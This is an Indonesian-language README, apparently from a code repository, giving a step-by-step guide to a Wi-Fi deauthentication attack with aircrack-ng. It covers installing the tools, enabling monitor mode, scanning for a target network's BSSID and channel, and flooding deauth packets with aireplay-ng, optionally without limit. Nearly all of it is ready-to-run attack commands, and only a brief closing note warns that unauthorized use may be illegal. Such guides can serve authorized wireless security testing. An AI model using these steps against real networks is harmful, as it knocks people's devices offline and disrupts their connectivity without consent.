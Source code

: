 ![English](README.md) / Bahasa
# Deauthentication Attack dengan `aircrack-ng` di Linux

Berikut panduan dasar untuk melakukan serangan deauth menggunakan `aircrack-ng` pada sistem berbasis Ubuntu/Debian (mungkin identik pada sistem lain):

---

## Prasyaat

- Kartu Jaringan yang support mode monitor dan packet injection (contoh: Atheros AR9565)
- `aircrack-ng` terpasang, jika belum:
  
  ```bash
  sudo apt install aircrack-ng
  ```

## Langkah-langkah

1. **Buka Terminal**: Tekan `Ctrl + Alt + T` untuk membuka terminal.

2. **Periksa Antarmuka Jaringan**: Cek nama antarmuka jaringanmu (contoh: wlan0, wlp3s0), gunakan perintah:
   
    ```bash
    iwconfig
    ```

3. **Masukkan Antarmuka jaringan ke mode monitor**: Pakai `airmon-ng`. Ganti `wlan0` dengan nama antarmuka jaringanmu:
   
    ```bash
    sudo airmon-ng start wlan0
    ```
    Mungkin airmon-ng akan mengganti nama antarmukamu (contoh: `wlan0mon`, `wlp3s0mon`).

4. **Cek Ulang Nama Antarmuka Jaringan**: Gunakan kembali `iwconfig`:

   ```bash
   iwconfig
   ```
   Cek apakah nama antarmuka berubah (contoh: `wlan0mon` `wlp3s0mon`).

5. **Pidai Jaringan}**: Gunakan `airodump-ng` untuk memindai jaringan sekitar dan catat channel dan BSSID (alamat MAC) target:

   ```bash
   sudo airodump-ng wlan0mon
   ```
   Ini akan memindai jaringan di semua channel. Tekan `Ctrl+C` untuk berhenti.

6. **Pindai Jaringan Target**: Setelah channel target diketahui, pakai `--channel` dan pindai ulang.
   
   ```bash
   sudo airodump-ng wlan0mon --channel 1
   ```
   Ganti `1` dengan channel targetmu.

7. **Jalankan Serangan Deauthentication**: Buka terminal baru dan lakukan serangan dengan:

   ```bash
   sudo aireplay-ng -0 5 -a <BSSID> wlan0mon
   ```
   Ganti `<BSSID>` dengan BSSID target.

   `-0` diperlukan untuk deauthentication.\
   `5` adalah jumlah berapa kali paket deauth dikirimkan. Atur sesuai kebutuhan. `0` berarti tanpa batas.

8. **Pantau AKtiviats**: Kembali ke layar `airodump-ng`. perangkat yang terputus dan mencoba menyambung ulang harusnya terlihat.

9. **Matikan Mode Monitor**: Setelah selesai, matikan mode monitor dengan:

   ```bash
   sudo airmon-ng stop wlan0mon
   ```
   Ganti `wlan0mon` dengan nama antarmuka jaringanmu jika berbeda.

## Catatan!!
- **Peringatan**: Serangan deauthentication dapat menjadi ilegal jika dilakukan tanpa otorisas yang tepat. Pastikan Anda memiliki izin sebelum melakukan pengujian tersebut.
- Gunakan secara bijak dan di lingkungan terkontrol.
- Perhatikan hukum dan peraturan yang terkait dengan keamanan jaringan nirkabel di wilayah Anda

